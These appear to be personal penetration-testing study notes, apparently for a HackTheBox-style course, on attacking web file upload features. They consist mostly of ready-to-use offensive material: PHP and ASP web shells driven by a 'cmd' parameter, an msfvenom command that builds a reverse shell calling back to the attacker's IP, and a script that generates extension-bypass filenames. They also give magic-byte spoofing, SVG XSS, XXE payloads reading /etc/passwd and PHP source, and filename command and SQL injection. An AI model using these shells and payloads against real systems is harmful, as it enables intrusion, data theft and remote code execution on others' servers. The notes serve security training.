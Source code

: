 # Types of attacks
## File metadata attacks
Path and filename can trick an application into writing a file to an unexpected location
## File contents attack 
Attacker may be able to upload unexpected content
## File size attack
Attacker may upload a large file to perform a Denial-Of-Service attack,

# Arbitrary File Upload 
* Need to determine what language is being used on the server-side
	* Visit `/index.<extension>` try various extensions such as `php`, `asp` `aspx`
	* Use [Wappalyser](https://www.wappalyzer.com/)

### Common WebShells
* [PHPbash](https://github.com/Arrexel/phpbash)
* `/usr/share/SecLists/Web-Shells`
* Easy webshell:
```php
<?php system($_REQUEST['cmd']); ?>
```
in the URL:
`?cmd=id`

* .NET applications
```asp
<% eval request('cmd') %>
```
Custom Reverse Shells 
```bash
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```

## Client Side Validation 
### Burp
* Use Burp to look at a normal request message 
* Modify file names and content type if needed.
### Disabling Front-end validation
* Look in browsers page inspector `Ctrl+Shift+C`
* Highlight the file input line
```html
<input type="file" name="uploadFile" id="uploadFile" onchange="checkFile(this)" accept=".jpg,.jpeg,.png">
```
Look for the onchange fuction
```javascript
function checkFile(File) {
...SNIP...
    if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
        $('#error_message').text("Only images are allowed!");
        File.form.reset();
        $("#submit").attr("disabled", true);
    ...SNIP...
    }
}
```
Remove the function from the html
`onchange=""` and remove the accept tag to
* Once uploaded use page inspector to load the source of the image
## Blacklist Filters
1. Testing against a blacklist of types 
2. testing against a whitelist of types

### Fuzzing Extensions
PayloadAllTheThings has lists of extensions for PHP and .NET
SECLists Common WebExtensions

Fuzz on Burp
## Whitelist Filters
* Try double extensions
	* `filename.jpg.php`
* Reverse double extensions 
	* `filename.php.jpg`
* Character Injection 
	* - `%20`
	- `%0a`
	- `%00`
	- `%0d0a`
	- `/`
	- `.\`
	- `.`
	- `…`
	- `:`
	- `shell.php%00.jpg`
- Bash script to generate all examples:
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```
## Type Filters
* Validating the `Content-Type` header and `File Content`
* You can fuzz [content type headers](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
### MIME-Type
* Multipurpose Internet Mail Extensions
* Determines file type through its general format and bytes structure
* Looking at a files [magic bytes](https://opensource.apple.com/source/file/file-23/file/magic/magic.mime)
* PHP uses the `mime_content_type()`
* Add the mime at the start of the file 
```php
GIF8
<?php ?>
```

## Limited File Uploads
Certain file types such as `SVG, HTML, XML` may allow us to introduce new vulnerabilities to a web page

### XSS
May be able to introduce a stored XSS vulnerability.
Can upload a HTML file with JavaScript
XSS can be carried with SVG images along with several other attacks:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
### XXE
Leak file information 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
Use XXE to read source code in PHP
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
### DoS
* Decompression Bomb
	* Nested archives that contain petabytes of data that when unzipped crash the server
* Pixel Flood
	* Make a JPG image with any file size and then modify the compression data to have a size of 0xffff x 0xffff which is 4 giga pixels.
## Other attacks
### injections in file name
* Name a file `file$(whoami).jpg` or ```file`whoami`.jpg``` or `file.jpg||whoami` this would make the file name then execute `whoami` and as such be a RCE
* Can also use a XSS payload. Filename: `<script>alert(window.origin);</script>`
* Can inject SQL query in a file name. Filename: `file';select+sleep(5); --.jpg`

### Upload Directory Disclosure
* Utilise fuzzing to find where the files are located
* Force error messages:
	* Upload a filename that already exists
		* may disclose file path

### Windows specific:
* Use reserved characters `|, < , >, * , ?` If the web application does not sanitise these they may cause errors or disclose more information.
* Use reserved names `CON, COM, LPT1, NUL`
* [Overwrite existing files](https://en.wikipedia.org/wiki/8.3_filename)
* For example, to refer to a file called (`hackthebox.txt`) we can use (`HAC~1.TXT`) or (`HAC~2.TXT`), where the digit represents the order of the matching files that start with (`HAC`). As Windows still supports this convention, we can write a file called (e.g. `WEB~.CONF`) to overwrite the `web.conf` file. Similarly, we may write a file that replaces sensitive system files. This attack can lead to several outcomes, like causing information disclosure through errors, causing a DoS on the back-end server, or even accessing private files.
* 

